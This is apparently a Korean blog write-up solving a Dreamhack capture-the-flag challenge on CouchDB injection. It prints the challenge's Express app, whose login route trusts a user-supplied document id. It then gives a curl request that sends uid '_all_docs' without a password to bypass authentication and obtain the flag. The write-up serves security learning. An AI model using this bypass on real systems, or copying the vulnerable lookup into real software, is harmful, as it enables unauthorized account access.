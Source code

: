 ```yaml
---
title: "2025-07-25 NoSQL-CouchDB111"
excerpt: "CouchDB injection"

categories:
  - Problem
tags:
  - [NoSQL injection, CouchDB]

permalink: /Problem/2025-07-25 NoSQL-CouchDB111/

toc: true
toc_sticky: true

date: 2025-07-25
last_modified_at: 2025-07-25
---
```


## 🦥 본문

- app.js

```jsx
var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');

const nano = require('nano')(`http://${process.env.COUCHDB_USER}:${process.env.COUCHDB_PASSWORD}@couchdb:5984`);
const users = nano.db.use('users');
var app = express();

// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'public')));

/* GET home page. */
app.get('/', function(req, res, next) {
  res.render('index');
});

/* POST auth */
app.post('/auth', function(req, res) {
    users.get(req.body.uid, function(err, result) {
        if (err) {
            console.log(err);
            res.send('error');
            return;
        }
        if (result.upw === req.body.upw) {
            res.send(`FLAG: ${process.env.FLAG}`);
        } else {
            res.send('fail');
        }
    });
});

// catch 404 and forward to error handler
app.use(function(req, res, next) {
  next(createError(404));
});

// error handler
app.use(function(err, req, res, next) {
  // set locals, only providing error in development
  res.locals.message = err.message;
  res.locals.error = req.app.get('env') === 'development' ? err : {};

  // render the error page
  res.status(err.status || 500);
  res.render('error');
});

module.exports = app;
```

사용자로부터 uid와 upw를 받는다. uid를 통해 CouchDB에서 계정을 찾고 해당 결과에서 upw와 사용자가 보낸 upw가 같으면 FLAG가 나온다.

### 풀이과정

1. uid 값에 `_all_docs` 를 입력한다.
2. 아래와 같이 요청을 보낸다.
    
    ```jsx
    curl -X POST http://host1.dreamhack.games:17032/auth -H "Content-Type: application/json" -d '{"uid": "_all_docs"}'
    ```
    
    - uid를 `_all_docs` 를 보내면 에러 없이 get 함수가 실행된다
    - 해당 페이지에서는 upw인 키 값이 없기 때문에 result.upw는 undefined가 된다.
    - upw를 보내지 않으면 undefined가 되기 때문에 조건문을 만족하여 FLAG 값이 나온다.